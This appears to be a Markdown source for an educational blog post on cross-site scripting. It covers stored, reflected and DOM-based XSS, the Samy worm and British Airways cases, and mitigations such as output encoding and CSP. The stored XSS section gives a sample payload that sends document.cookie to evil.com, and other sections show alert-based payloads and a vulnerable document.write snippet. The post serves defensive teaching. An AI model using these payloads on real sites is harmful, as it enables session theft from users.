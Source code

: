 ```yaml
---
title: "Cross-Site Scripting (XSS): OWASP Top 10 & Real-World Exploitation"
date: 2025-07-31
layout: post
tag: [OWASP, Web Security, XSS]
---
```


<div style="max-width: 900px; margin: auto; padding: 20px;">

## Table of Contents

- [What is Cross-Site Scripting (XSS)?](#what-is-cross-site-scripting-xss)
- [Types of XSS](#types-of-xss)
  - [1. Stored XSS](#1-stored-xss)
  - [2. Reflected XSS](#2-reflected-xss)
  - [3. DOM-Based XSS](#3-dom-based-xss)
- [How XSS Attacks Work](#how-xss-attacks-work)
- [Real-World Examples](#real-world-examples)
- [General Mitigation Strategies](#general-mitigation-strategies)
- [Conclusion](#conclusion)
- [References](#references)

---

## What is Cross-Site Scripting (XSS)?

Cross-Site Scripting (XSS) is a client-side code injection vulnerability that allows attackers to inject malicious scripts into web pages viewed by other users. When executed in the victim’s browser, these scripts can steal cookies, session tokens, sensitive data, or perform actions on behalf of the user. XSS is included in the [OWASP Top 10](https://owasp.org/Top10) due to its high frequency and impact.

---

## Types of XSS

### 1. Stored XSS

**Definition:**  
Stored XSS occurs when malicious scripts are permanently saved on the target server (e.g., in a database, comment section, forum post). Any user who accesses the affected page will automatically execute the malicious code.

**How it works:**

1. Attacker submits malicious JavaScript into an input field that gets stored in the application’s database.  
2. When another user loads the page, the stored script is included in the page’s HTML and executed by the browser.  
3. The script can perform actions like stealing cookies, keylogging, or redirecting the user to malicious sites.

**Example payload:**
```html
<script>fetch('https://evil.com?cookie=' + document.cookie)</script>
```

**Mitigation:**  
Sanitize and validate all user inputs before storing them; use context-aware output encoding; avoid directly inserting untrusted data into HTML; apply a strict Content Security Policy (CSP).

---

### 2. Reflected XSS

**Definition:**  
Reflected XSS occurs when malicious scripts are embedded in a URL or request and reflected back to the browser in the server’s response without proper sanitization.

**How it works:**

1. Attacker crafts a malicious link containing JavaScript code in a parameter.  
2. Victim clicks the link and sends a request to the vulnerable application.  
3. The application reflects the malicious input in its response, which the browser executes.

**Example payload in URL:**
```
https://example.com/search?q=<script>alert('XSS')</script>
```

**Mitigation:**  
Sanitize and encode all user inputs before reflecting them in responses; use frameworks that automatically escape output; avoid dynamically generating HTML from untrusted data; implement CSP to block inline scripts.

---

### 3. DOM-Based XSS

**Definition:**  
DOM-Based XSS happens when the client-side JavaScript modifies the DOM based on untrusted data without proper sanitization, leading to script execution without any server-side involvement.

**How it works:**

1. Attacker crafts a malicious payload that manipulates the page’s DOM via URL fragments, query parameters, or other sources.  
2. The vulnerable JavaScript code inserts this data directly into the page without escaping.  
3. The browser executes the malicious code.

**Example vulnerable code:**
```javascript
document.write(location.hash);
```

**Example attack URL:**
```
https://example.com/page#<script>alert('XSS')</script>
```

**Mitigation:**  
Avoid dangerous DOM manipulation methods like `document.write()` and `innerHTML` with untrusted data; use safe DOM APIs like `textContent` or `setAttribute()`; sanitize inputs with trusted libraries (e.g., DOMPurify); implement CSP to prevent execution of injected scripts.

---

## How XSS Attacks Work

1. **Injection:** The attacker injects malicious JavaScript into a vulnerable page.  
2. **Execution:** The victim’s browser renders the page and runs the script.  
3. **Impact:** The attacker can steal session cookies, perform actions as the user, or spread malware.

---

## Real-World Examples

- **MySpace Samy Worm (2005):** A self-replicating XSS worm that spread to over 1 million profiles in 24 hours.  
- **British Airways Breach (2018):** Malicious JavaScript was injected to steal payment details from thousands of customers.

---

## General Mitigation Strategies

- Validate and sanitize all user inputs on both client and server.  
- Use context-specific output encoding.  
- Enforce a strong Content Security Policy (CSP).  
- Avoid unsafe JavaScript functions and DOM manipulation methods.  
- Use security features provided by frameworks.  
- Regularly test for XSS vulnerabilities using automated scanners and manual penetration testing.

---

## Conclusion

XSS is a critical vulnerability that undermines user trust and can cause severe data breaches. By implementing proper input handling, output encoding, and browser-based security controls, developers can significantly reduce the risk of exploitation.

---

## References

- [OWASP: Cross-Site Scripting (XSS)](https://owasp.org/www-community/attacks/xss/)  
- [PortSwigger: XSS Cheat Sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)  
- [Google CSP Evaluator](https://csp-evaluator.withgoogle.com/)

</div>
